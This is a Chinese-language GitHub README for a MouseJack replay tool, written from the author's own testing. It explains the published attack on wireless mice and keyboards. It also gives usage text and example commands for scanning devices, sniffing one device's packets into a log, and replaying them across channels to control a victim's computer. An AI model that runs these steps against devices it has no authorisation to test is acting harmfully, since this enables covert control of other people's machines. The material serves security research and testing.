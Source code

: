 # Mousejack replay
## 0x00 简介
Bastille的研究团队发现了一种针对蓝牙键盘鼠标的攻击，攻击者可以利用漏洞控制你的电脑操作。研究团队将此攻击命名为MouseJack。 Mousejack 之前在Freebuf上有所介绍：[MouseJack：利用15美元的工具和15行代码控制无线鼠标和键盘](http://www.freebuf.com/articles/wireless/97023.html)，当然，制作团队也将部分测试代码公开在[github](https://github.com/RFStorm/mousejack/)上，该团队网站地址为：https://www.mousejack.com/ 从视频中，可以看到攻击者通过此技术，直接操纵受害者电脑，但由于目前该团队并没有公开完整代码，所以有了下面的测试代码。
>怎么烧固件这里就不说了，在原[github](https://github.com/RFStorm/mousejack/)有详细说明，drops也有介绍:[Mousejack测试指南](http://drops.wooyun.org/tips/13444)，如果在windows平台，我也写过一个介绍:[windows下刷MouseJack固件](http://zone.wooyun.org/content/25763)。

## 0x01 原脚本测试

该团队所公布的代码主要包括了扫描跟嗅探模块，nrf24-network-mapper.py 中并没有能够让鼠标操作发生明显变化的payload，经过多次测试，写出了此测试脚本，能够完成对无线鼠标操作的重放攻击。

>测试发现，执行依此操作之后，需要对设备进行重新插拔

## 0x02 脚本介绍

### scanner

使用原作者的扫描脚本，此脚本用来扫描附近的无线鼠键：

```
usage: ./nrf24-scanner.py [-h] [-c N [N ...]] [-v] [-l] [-p PREFIX] [-d DWELL]

optional arguments:
  -h, --help                          show this help message and exit
  -c N [N ...], --channels N [N ...]  RF channels
  -v, --verbose                       Enable verbose output
  -l, --lna                           Enable the LNA (for CrazyRadio PA dongles)
  -p PREFIX, --prefix PREFIX          Promiscuous mode address prefix
  -d DWELL, --dwell DWELL             Dwell time per channel, in milliseconds
```

扫描信道 1-5 的设备：

```
./nrf24-scanner.py -c {1..5}
```

扫描起始地址为0xA9的设备的所有信道：

```
./nrf24-scanner.py -p A9
```


### sniffer

修改原作者脚本，将获取的设备数据存储到pack.log 中，之后可以使用mousejack-replay.py脚本对此数据进行重放：

```
usage: ./nrf24-sniffer.py [-h] [-c N [N ...]] [-v] [-l] -a ADDRESS [-t TIMEOUT] [-k ACK_TIMEOUT] [-r RETRIES]

optional arguments:
  -h, --help                                 show this help message and exit
  -c N [N ...], --channels N [N ...]         RF channels
  -v, --verbose                              Enable verbose output
  -l, --lna                                  Enable the LNA (for CrazyRadio PA dongles)
  -a ADDRESS, --address ADDRESS              Address to sniff, following as it changes channels
  -t TIMEOUT, --timeout TIMEOUT              Channel timeout, in milliseconds
  -k ACK_TIMEOUT, --ack_timeout ACK_TIMEOUT  ACK timeout in microseconds, accepts [250,4000], step 250
  -r RETRIES, --retries RETRIES              Auto retry limit, accepts [0,15]
```

嗅探地址为 61:49:66:82:03 设备所有信道的数据包并将数据包保存：

```
./nrf24-sniffer.py -a 61:49:66:82:03
```

### mousejack-replay.py 

在 network mapper 脚本上修改，首先通过Ping获取可用信道，然后读取pack.log中的数据包内容，将每一条数据发送到各个信道，完成数据包重放,测试过程中，发现可用地址一般为3-4个，所以将原脚本改成rang(4)：

```
usage: ./mousejack-replay.py [-h] [-c N [N ...]] [-v] [-l] -a ADDRESS [-p PASSES] [-k ACK_TIMEOUT] [-r RETRIES]

optional arguments:
  -h, --help                                 show this help message and exit
  -c N [N ...], --channels N [N ...]         RF channels
  -v, --verbose                              Enable verbose output
  -l, --lna                                  Enable the LNA (for CrazyRadio PA dongles)
  -a ADDRESS, --address ADDRESS              Known address
  -p PASSES, --passes PASSES                 Number of passes (default 2)
  -k ACK_TIMEOUT, --ack_timeout ACK_TIMEOUT  ACK timeout in microseconds, accepts [250,4000], step 250
  -r RETRIES, --retries RETRIES              Auto retry limit, accepts [0,15]
```

指定地址为 61:49:66:82:03 的设备进行数据包重放：

```
./mousejack-replay.py -a 61:49:66:82:03
```

## 0x03备注
以上为个人测试结果，由于目前手上只有一个鼠标可以测试，可能并不适用所有存在漏洞设备，有兴趣的小伙伴可以找我一起研究，可以对脚本进行进一步的完善。

右键点击演示视频：http://v.youku.com/v_show/id_XMTUwMTQ3Njk4NA==.html

数据重放演示视频：

